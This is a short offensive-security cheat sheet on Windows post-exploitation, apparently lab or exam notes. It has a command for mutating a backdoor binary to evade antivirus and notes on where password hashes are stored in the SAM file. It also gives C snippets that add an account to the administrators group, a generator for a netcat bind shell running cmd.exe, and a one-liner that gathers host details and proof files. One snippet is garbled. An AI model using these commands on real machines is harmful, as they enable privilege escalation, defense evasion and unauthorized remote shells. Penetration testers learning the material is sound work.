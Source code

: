 ### AV bypass

Generating a mutated binary to bypass antiviruses

```text
wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe
```

## Access Check

You will probably need to accept the eula first:

```text
accesschk.exe /accepteula
```

## Windows hashes

NTLM and LM passwords are located in the SAM file in **C:\\Windows\SYSTEM32\CONFIG**

LAN Manager \(LM\): Windows XP and prior use LAN manager protocol. Uses DES but the key space is small \(only uppercase, not salted, 14 chars or padded to 14\).

NTLM/NTLM2: It does not split the password, also stored in uppercase

Kerberos: Default protocol for active directory envs.PoCs

Add user to administrator group

```text
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

```text
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

#### Run an arbitrary command:

```text
echo -e '#include <stdio.h>\n#include <smain () {\nsystem("C:\\Users\\Administrator\\Desktop\\nc -lvp 4313 -e cmd.exe");\nreturn(0);\n}'> poc.c
```

## Print proof

```text
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```

